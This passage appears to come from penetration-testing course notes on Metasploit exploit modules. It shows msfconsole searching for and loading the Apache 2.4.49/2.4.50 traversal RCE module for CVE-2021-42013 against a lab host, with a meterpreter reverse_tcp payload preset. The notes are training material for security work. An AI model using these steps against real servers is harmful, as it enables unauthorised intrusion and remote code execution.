 **Note**: Can delete database with `sudo msfdb delete`

### Exploit Modules 
Now that we are acquainted with basic MSF usage and the usage of auxiliary modules, let's dig deeper into the business end of MSF: **exploit modules**

Exploit modules most commonly contain exploit code for vulnerable applications and services
+ Metasploit contains over 2200 exploits at the time of this writing
+ Each was meticulously developed and tested, making MSF capable of successfully exploiting a wide variety of vulnerable services
+ These exploits are invoked in much the same way as auxiliary modules

In this example, we'll leverage one of the exploit modules to get access to the target system WEB18
+ Let's assume we identified that the system runs an Apache 2.4.49 web server and is vulnerable to _CVE-2021-42013_ with a vulnerability scan
+ We'll attempt to use Metasploit and its exploit modules to exploit this vulnerability and get code execution

Let's create a new workspace for this section and search Metasploit for modules related to "Apache 2.4.49":
```
msf6 auxiliary(scanner/ssh/ssh_login) > workspace -a exploits
[*] Added workspace: exploit
[*] Workspace: exploit

msf6 auxiliary(scanner/ssh/ssh_login) > search Apache 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner
```
+ Above shows that our search resulted in two matching modules
+ Index 1 refers to an auxiliary module that checks if one or more target systems are vulnerable to the previously mentioned vulnerability
+ Index 0 refers to the corresponding exploit module

Let's **`use`** the exploit module and enter **`info`** to review its description:
```
msf6 auxiliary(scanner/ssh/ssh_login) > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > info

       Name: Apache 2.4.49/2.4.50 Traversal RCE
     Module: exploit/multi/http/apache_normalize_path_rce
   Platform: Unix, Linux
       Arch: cmd, x64, x86
...
Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
```